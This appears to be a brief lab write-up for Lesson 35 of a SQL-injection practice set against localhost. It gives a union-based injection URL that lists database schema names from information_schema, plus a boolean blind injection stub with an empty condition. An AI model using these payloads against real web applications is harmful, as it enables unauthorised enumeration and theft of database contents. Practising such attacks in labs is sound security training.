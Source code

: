 # Lesson-35
```
Bool盲注-,-明注
```

盲注 : 
```
http://127.0.0.1/Less-35/?id=0||()--+
```
明注 : 
```
http://127.0.0.1/Less-35/?id=0%20union%20select%201,1,group_concat(schema_name)%20from%20information_schema.schemata--+
```
